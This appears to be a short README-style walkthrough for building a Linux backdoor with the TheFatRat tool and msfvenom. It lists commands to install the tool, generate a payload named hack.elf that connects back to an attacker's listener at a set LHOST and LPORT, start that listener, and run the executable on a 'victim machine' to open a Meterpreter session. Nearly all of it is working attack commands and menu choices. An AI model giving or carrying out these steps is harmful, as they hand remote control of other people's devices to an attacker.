 This attack is based on running TheFatRat exploit to create a payload that creates a server allowing remote access to the device. Note: I ran this on kali linux because it has metasploit installed already so downloading this on a different operating system could effect its ability to download.

1. Open terminal and use following commands to clone TheFatRat from github
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh

2. After downloading enter FatRat and update using
cd TheFatRat
./update && chmod +x setup.sh && ./setup.sh

3. Now that you have TheFatRat up and running select the "Create Backdoor with msfvenom"
1

4. Now choose type of system you are attacking in this case linux
1

5. Replace LHOST with your local ip address. Set LPORT to port of my choice and give the payload a name.
Set LHOST IP: 10.0.2.15
Set LPORT: 6666
Please enter the base name for output files: hack

6. choose payload according to OS of victim system I was doing linux so
3

Payload should be generated and in output folder

7. Open new terminal and rerun fatrat
./fatrat

8. Now to create the listener select "Load/Create auto listeners"
9

9. Choose system you want to create the listener for in this case linux
1

10. Choose same payload type you used for exectuable
3

11. Fill LHOST and LPORT with same info from payload

Set LHOST IP: 10.0.2.15
Set LPORT: 6666
Do you want to save this configuration to use in the future: y
Write the name for this config: linuxListener

12. Now that its created select "load a saved listener"
5

13. give file name of desired listener
filename: linuxListener.rc

msfconsole should deploy

14. turn payload into executable
chmod +x hack.elf

15. run executable on victim machine
./hack.elf

Meterpreter Session Should be open. Success
